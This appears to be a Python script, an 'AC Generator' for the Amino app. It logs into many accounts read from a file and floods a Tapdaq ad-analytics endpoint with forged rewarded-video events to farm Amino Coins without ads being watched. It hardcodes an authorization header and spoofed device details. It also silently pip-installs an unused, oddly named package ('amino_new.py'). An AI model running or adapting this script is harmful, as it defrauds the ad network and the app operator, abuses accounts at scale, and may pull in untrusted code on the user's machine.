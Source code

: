 import getpass
import uuid
from uuid import uuid4
import threading
from threading import Thread
import json
from os import path
import os
os.system("pip install amino_new.py==4.2.2")
try:
	import colorama
except ModuleNotFoundError:
		os.system("pip install colorama")
		import colorama
try:
    import pyfiglet
except ModuleNotFoundError:
    	os.system("pip install pyfiglet")
    	import pyfiglet
try:
        import requests
except ModuleNotFoundError:
        os.system("pip install requests")
        import requests
try:
        import amino                        
except ModuleNotFoundError:
         os.system("pip install amino==13.0.1")
         import amino
          
colorama.init()
print(colorama.Fore.YELLOW)
print(colorama.Style.NORMAL)
f = pyfiglet.Figlet(font='slant')
print (f.renderText('AC'))
f = pyfiglet.Figlet(font='slant')
print (f.renderText('GENERATOR'))

print ("-Made by Parttimer")
print ("-Moded by Éxtasis")

ear=[]
t = open('emails.txt','r')
for m in t.read().splitlines():
    temp=m
    # for fx in range(0,len(temp)):
    #     temp=temp[:len(temp)-1]

    ear.append(str(temp))
t.close
 
#client = amino.Client("178AE9B9C6468096B9fE91B6AE25E83494B5C72BC73B488f0641BDB220512DAFD837620E38E8205D98")
headers={
        "cookies":"__cfduid=d0c98f07df2594b5f4aad802942cae1f01619569096",
        "authorization":"Basic NWJiNTM0OWUxYzlkNDQwMDA2NzUwNjgwOmM0ZDJmYmIxLTVlYjItNDM5MC05MDk3LTkxZjlmMjQ5NDI4OA=="
    }
 
def extra(fo:str):
    data = {
        "reward":{"ad_unit_id":"t00_tapjoy_android_master_checkinwallet_rewardedvideo_322","credentials_type":"publisher","custom_json":{"hashed_user_id":f"{fo}"},"demand_type":"sdk_bidding","event_id":None,"network":"facebook","placement_tag":"default","reward_name":"Amino Coin","reward_valid":"true","reward_value":2,"shared_id":"dc042f0c-0c80-4dfd-9fde-87a5979d0d2f","version_id":"1569147951493","waterfall_id":"dc042f0c-0c80-4dfd-9fde-87a5979d0d2f"},
        "app":{"bundle_id":"com.narvii.amino.master","current_orientation":"portrait","release_version":"3.4.33567","user_agent":"Dalvik\/2.1.0 (Linux; U; Android 10; G8231 Build\/41.2.A.0.219; com.narvii.amino.master\/3.4.33567)"},"date_created":1620295485,"session_id":"49374c2c-1aa3-4094-b603-1cf2720dca67","device_user":{"country":"US","device":{"architecture":"aarch64","carrier":{"country_code":602,"name":"Vodafone","network_code":0},"is_phone":"true","model":"GT-S5360","model_type":"Samsung","operating_system":"android","operating_system_version":"29","screen_size":{"height":2260,"resolution":2.55,"width":1080}},"do_not_track":"false","idfa":"7495ec00-0490-4d53-8b9a-b5cc31ba885b","ip_address":"","locale":"en","timezone":{"location":"Asia\/Seoul","offset":"GMT+09:00"},"volume_enabled":"true"}
        }
    event=uuid4()
    data["reward"]["event_id"]=f"{event}"
    try:
        requests.post("https://ads.tapdaq.com/v4/analytics/reward",json=data, headers=headers)
    except:
    	pass
 
password= input("Contraseña de las cuentas: ")
for email in ear:
    try:
    	client=amino.Client()
    	client.login(email=email,password=password)
    	#fo=client.userId
    	coins = client.get_wallet_info().totalCoins
    	print(f"Antes: {coins}")
    	fo=client.userId
    	for _ in range(150):
    	       try:
    	       	threading.Thread(target=extra,args=(fo,)).start()
    	       except:
    	       	pass
    	coins = client.get_wallet_info().totalCoins
    	print(f"Después: {coins}")
    except Exception as e:
    	print(e)
    	pass
